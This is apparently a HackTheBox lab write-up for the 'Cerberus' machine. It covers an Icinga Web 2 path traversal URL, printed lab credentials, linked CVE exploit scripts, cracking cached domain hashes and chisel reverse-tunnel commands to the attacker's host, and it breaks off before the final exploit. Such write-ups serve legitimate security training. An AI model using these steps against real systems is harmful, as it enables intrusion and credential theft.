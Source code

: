 <h3> Cerberus HackTheBox </h3>

### Difficulty = Hard

### IP Address = 10.10.11.205

#### This is my first hard rated hackthebox machine and its a windows box xD

Nmap Scan:
![image](https://user-images.githubusercontent.com/127159644/227714366-b69f0657-52ca-4fc5-b305-2f3da790d02d.png)

I added the domain name to my `/etc/hosts` file

```
➜  ~ cat /etc/hosts | grep cer
10.10.11.205    icinga.cerberus.local cerberus.local
➜  ~ 
```

After navigating to the web server I got this login page
![image](https://user-images.githubusercontent.com/127159644/227714514-c5dd3dc0-be36-4dc9-b8dc-03615a144e83.png)

Since weak cred doesn't work (lets face it this is an hard htb box 😂) I decided to check for exploits

And i found a path transversal exploit

Here's the resource [Exploit](https://www.sonarsource.com/blog/path-traversal-vulnerabilities-in-icinga-web/)

To get the `/etc/passwd` file according to the exploit you goto

```
Vuln: http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/passwd
```

Trying that works
![image](https://user-images.githubusercontent.com/127159644/227714671-da582c0f-4cab-4f48-abeb-5e79c1b2839a.png)

And now if you read the resource you will see that authenticated user can then gain RCE via ssh key

First on the normal login page looking at the source code shows this
![image](https://user-images.githubusercontent.com/127159644/227714915-e0a99cbb-6f70-4034-a54a-df36067011a4.png)

```
file:///etc/icingaweb2/ssh/nima
```

It shows us the path to the `Icinga Web 2` 

That is useful cause we want to enumerate creds

So i asked chatgpt and got the answer
![image](https://user-images.githubusercontent.com/127159644/227715278-9ee180a5-8746-494e-ac21-72b053213df1.png)

Trying that works
![image](https://user-images.githubusercontent.com/127159644/227715327-c72c1305-3955-422e-8e98-8728ed152669.png)

```
Username: matthew
Password: IcingaWebPassword2023
```

Using that to login works
![image](https://user-images.githubusercontent.com/127159644/227715398-130e54c1-1494-497b-8c22-f55e8dae793f.png)

From here we can get RCE using the same resource that exploited the path transversal

#### Exploitation: Remote Code Execution (CVE-2022-24715)

Using this exploit scrpit [Exploit](https://github.com/JacobEbben/CVE-2022-24715/blob/main/exploit.py)

I got shell
![image](https://user-images.githubusercontent.com/127159644/227747439-4c75a59c-8f97-4b7c-a2c7-59662defba6b.png)

Now this is weird cause cerberus is a windows box and not a linux box 

That means we're in some sort of container 🤔

Next thing is to get root and checking for suid binary shows this
![image](https://user-images.githubusercontent.com/127159644/227747986-0d824e24-6530-4251-8c57-05c5c6750d8a.png)

```
/usr/bin/firejail
```

So i searched for exploit and found this [Resource](https://www.openwall.com/lists/oss-security/2022/06/08/10)

There's an exploit script for (CVE-2022-31214) [Exploit](https://seclists.org/oss-sec/2022/q2/att-188/firejoin_py)

I transferred it to the target and run it, my privilege was escalated to root
![image](https://user-images.githubusercontent.com/127159644/227748283-8094b1ee-e287-4a56-8070-63a9f633fe1d.png)

After getting root i decided to find a way to escape this container

THen on running linpeas.sh i got this
![image](https://user-images.githubusercontent.com/127159644/227748494-a022052d-65dd-4081-81e6-570bb807c7a2.png)

Cache Cred is True in this joined domain host

So i asked chatgpt again and it says the path where the cred and information of a windows joined domain host is located at `/var/lib/sss/db`

After checking i saw that `cache_cerberus.local.ldb` has an hash

Then i cracked it and it belongs to user `matthew`
![image](https://user-images.githubusercontent.com/127159644/227749264-b16beab8-9eeb-4d54-9a6a-422541ee7a30.png)

But where do we login from?

Now i want to scan the whole host to know what ports are hosts are up

Using nmap compiled binary i scanned the host and figured that winrm is open
![image](https://user-images.githubusercontent.com/127159644/227749590-c14b2e92-50ec-4997-8dd2-333d727ff508.png)

With this i can now port forward using chisel to my host then login to the winrm as user matthew
![image](https://user-images.githubusercontent.com/127159644/227749695-19a8d29d-d16b-4dbf-b6f1-6f8597764201.png)

So i logged in as user matthew to the winrm service
![image](https://user-images.githubusercontent.com/127159644/227749766-ab9d6c82-c92d-4910-bdef-5d51215b3388.png)

#### Privilege Escalation

Checking `Program Files (x86)` I got `ManageEngine\ADSelfService Plus` 
![image](https://user-images.githubusercontent.com/127159644/227749914-b740b10e-0ff3-4909-86fe-8b5cbd576056.png)

Searching for exploit leads here [Resource](https://www.manageengine.com/security/advisory/CVE/cve-2022-47966.html)

I'll port forward again using chisel in order to exploit the service running internally
![image](https://user-images.githubusercontent.com/127159644/227750304-c7085dd0-fe09-40fd-8e04-2deb54df0ecf.png)

```
# Attacker
chisel server -p 9090 --reverse

# Target
.\chisel-x64.exe client 10.10.14.175:9090 R:9091:socks
```

Since we need some requirements before exploiting the service lets get em

Now i can use metasploit to exploit the service



